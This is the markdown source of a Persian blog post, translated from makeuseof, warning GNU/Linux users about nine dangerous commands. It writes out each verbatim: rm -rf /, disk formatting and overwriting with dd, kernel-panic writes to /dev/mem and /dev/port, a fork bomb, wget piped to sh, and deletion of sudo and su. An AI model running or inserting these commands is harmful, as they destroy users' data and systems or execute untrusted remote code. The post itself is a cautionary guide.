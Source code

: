 ```yaml
---
layout: post
title: 9 دستور مهلک در گنو/لینوکس که هرگز نباید اجرا کنید
permalink: /گنو-لینوکس/9-دستور-مهلک-در-گنولینوکس-که-هرگز-نباید
post_id: 411
author: milad
categories: 
- ترمینال - Bash
- دستورات خطرناک لینوکس
- دستورات مهلک لینوکس
- دستوراتی که نباید اجرا کنید
- راهنما نکات و ترفندها
- گنو/لینوکس
---
```


سیستم عامل گنو/لینوکس و توزیع‌های مبتنی بر آن می‌توانند یک شمشیر دو لبه باشند. این شمشیر اینگونه درنظر می‌گیرد که شما می‌دانید چه می‌کنید و این آزادی را به شما می‌دهد که هر چه می‌خواهید انجام دهید، از شما سوال نمی‌پرسد و این زمانی خوب است که شما دقیقا بدانید چه می کنید، اما این را امکانپذیر میکند که در کسری از ثانیه سیستم خود را از حالت پایداری خارج و حتی نابود کنید.

فرقی ندارد یک تازه کار باشید یا یک کهنه سرباز گنو/لینوکس، شما هرگز نباید یک دستور را اجرا کنید مگر اینکه بدانید دقیقا چه کاری را انجام می‌دهد. در این پست تعدادی از مرگبارترین دستورات را مرور می‌کنیم.

more

##حذف بازگشتی


قدرت و قابلیت گنو/لینوکس در حذف هر چیز بدون پرسش یک نعمت بزرگ است، خصوصا اگر با پیغام هایی همچون حذف فایل امکانپذیر نمی‌باشد آشنا باشید، به هر حال یکی از خطرناک ترین دستورات از همین ویژگی قدرت گرفته و به شکل زیر است:

rm -rf /

خط بالا دستور rm (حذف) را به همراه پارامتر r به معنی recursive (بازگشتی) که باعث می‌شود دستور تمام زیر دایرکتوری‌های شاخه مشخص شده را شامل شود و f که بدون پرسش فایل‌های Read Only را حذف می‌کند (force) اجرا شود.
درواقع دستور بالا تمام فایل‌ها و دایرکتوری‌ها در سیستم شما را پاک می‌کند.

##فرمت هارد


هرچند ترمینال بهترین دوست کاربران است اما برای کاربران تاره‌کار گنو/لینوکس گزینه قابل اعتمادی نیست، زیرا راه‌های زیادی برای از بین بردن اطلاعات به صورت تصادفی را به کاربران می‌دهد. حذف بازگشتی یکی از این راه‌ها بود. یک راه دیگر استفاده از دستوراتی مشابه دستور زیر است:

mkfs.ext4 /dev/sda

دستور فوق هارد دیسک را برای استفاده از فایل سیستم ext4 فرمت می‌کند. فرمت کردن به خودی خود یک عمل مخرب نیست اما انجام اینکار بر روی تمامی یک دیسک که شامل فایل‌ها و... میشود همه چیز را از بین برده و می‌تواند سیستم شما را در حالت غیر قابل بازگشت قرار دهد.


##بازنویسی هارد دیسک


 اگر فرمت تصادفی هارد به اندازه کافی برایتان بد نیست، این امکان وجود دارد که هارد خود را با اطلاعات خام بازنویسی کنید، حداقل فرمت کردن یک عمل است که در حالت عادی استفاده میشود، اما بازنویسی هارد به نظر گزینه خوبی نمی‌آید.

command > /dev/sda

کلمه command در خط بالا را میتوان با هر دستور دیگری جایگزین کرد. علامت
**<**
 باعث میشود خروجی دستور سمت چپ به فایل سمت راست هدایت و در آن نوشته شود که در این مثال خروجی بر روی کل هارد نوشته خواهد شد و اطلاعات کاربر ازبین خواهد رفت.


##پاک کردن هارد دیسک


در اینجا یک روش دیگر برای از بین بردن سیستم‌ و فایل‌هایتان آمده است، این دستور هارد شما را با بیت صفر پر می‌کند. درواقع هیچ چیز بر روی هاردتان باقی نخواهد ماند.

dd if=/dev/zero of=/dev/sda

**dd**
 یک دستور سطح پایین است که برای نوشتن اطلاعات بر روی درایو های فیزیکی استفاده می‌شود، 
**if**
 منبع داده را مشخص میکند که در این مثال منبع /dev/zero میباشد که یک جریان نامحدود از صفر را ارائه می‌کند. 
**of**
 مشخص کننده مقصد این صفر ها میباشد که در این مثال /dev/sda یعنی آدرس هارد دیسک می‌باشد.


##انتقال همه چیز به هیچ چیز (یک تصور اشتباه)


اگر از شنیدن دستورات و راه‌هایی که منجر به خرابی هاردتان میشود خسته شده‌اید، صبر کنید، اینجا یک مورد بسیار جالب ارائه شده است. در لینوکس یک فایل ویژه وجود دارد(
**/dev/null**
) که تمام اطلاعاتی که به سمت آن ارسال میشود را نادیده می‌گیرد. می‌توانید آن را به عنوان یک سیاه‌چاله یا کاغذ خردکن در نظر بگیرید.

mv / /dev/null

برخلاف تصور عموم، در دستور فوق 
**mv**
شاخه / (روت) را به سمت سیاه‌چاله هدایت نخواهد کرد، زیرا انتقال یک دایرکتوری به فایل امکان پذیر نمی‌باشد، در ظاهر دستور فوق خطرناک به نظر میرسد اما در حقیقت اجرای این دستور امکانپذیر نمی‌باشد.


##Kernel Panic


برخی اوقات یک خطای درونی مهلک که غیرقابل کنترل میباشد رخ می‌دهد و سیستم یک پیغام مشابه Blue Screen به نمایش میگذارد: 
[Kernel Panic](https://en.wikipedia.org/wiki/Kernel_panic).

dd if=/dev/random of=/dev/port

echo 1 > /proc/sys/kernel/panic

cat /dev/port

cat /dev/zero > /dev/mem

پیچیدگی‌های دستورات فوق اهمیتی ندارد، چیزی که اهمیت دارد این است که این دستورات باعث رخ دادن Kernel Panic‌ و مجبور کردن کاربر به راه‌اندازی مجدد سیستم می شود.


##بمب انشعابی


Bash در کنار اجرای دستورات توانایی اجرای توابع را دارد که نوشتن اسکریپت برای انجام وظایف سیستم به صورت خودکار را آسان می‌کند. متاسفانه توابع هم ریسک خود را دارند:

:(){:|:&};:

دستور مبهم بالا Fork Bomb یا بمب انشعابی نامیده می‌شود. که یک نوع ویژه از Kernel Panic محسوب می‌شود. این دستور یک تابع به نام
**:**
 تعریف می‌کند که پس از اجرا به صورت بازگشتی دو بار خودش را صدا میزند، یک بار در Foreground و یک بار در Background.

به عبارتی دیگر هر بار که تابع اجرا شود دو Child Process ایجاد می‌کند و این Child Process ها Child Process های خودشان را ایجاد می‌کنند و این دوره به صورت نامحدود ادامه پیدا می‌کند. تنها را برای خلاصی از این حالت راه‌اندازی مجدد سیستم است.


##اجرای اسکریپت از راه دور


**wget**
محتوای یک لینک را دریافت می‌کند و میتوان برای مواردی همچون دانلود فایل‌ها مورد استفاده قرار بگیرد. به هر حال در مثال زیر یک نمونه خطرناک از بکارگیری این دستور را مشاهده می‌کنیم.

wget http://یک-آدرس-غیر-قابل-اعتماد -O- | sh

ترکیب بالا محتوای آدرس داده شده را دانلود کرده و به دستور sh ارسال می‌کند و این دستور محتوای دانلود شده را در ترمینال اجرا می‌کند. اگر url به یک اسکریپت مخرب اشاره داشته باشد سرنوشت خود را به دست این دستور سپرده اید.


##غیرفعال کردن حق ریشه در اجرای دستورات


توسط دستور زیر، دو دستور مهم در لینوکس (sudo و su) حذف می‌شوند. این دو دستور به شما اجازه اجرای برنامه‌ها با دسترسی root را می‌دهند. بدون وجود این دو دستور زندگی در لینوکس سیاه و تیره خواهد بود.

rm -f /usr/bin/sudo;rm -f /bin/su

به همین دلیل است که نباید هرگز این دستور را اجرا کنید. البته عموما راه‌هایی برای بازگرداندن فایل های حذف شده وجود دارد اما بازگرداندن اطلاعات همیشه امکانپذیر و به همان راحتی که فایل ها حذف شده‌اند نمی‌باشد.

برخی از دستورات فوق نیازمند دسترسی ریشه برای اجرا می‌باشند، اما به هر حال جزو خطرناک ترین دستورات شمرده می‌شوند.

روش‌های گوناگون و مثال‌هایی دیگری مشابه دستورات فوق موجود می‌باشد. برای مثال استفاده از /dev/random به جای /dev/zero باعث می‌شود هارد به جای پر شدن با صفر با بیت های تصادفی درواقع داده بی‌ارزش  پر شود.

شما هم می‌توانید تجارب و دستورات مخربی را که ‌باید از اجرای آنها خودداری کرد را با ما و سایر دوستان در قسمت نظرات به اشتراک بگذارید.
منبع: makeuseof
ترجمه: 
[تاکس گیک](http://tuxgeek.ir)شامل ویرایش و تغییرات.

آخرین ویرایش 22/11/93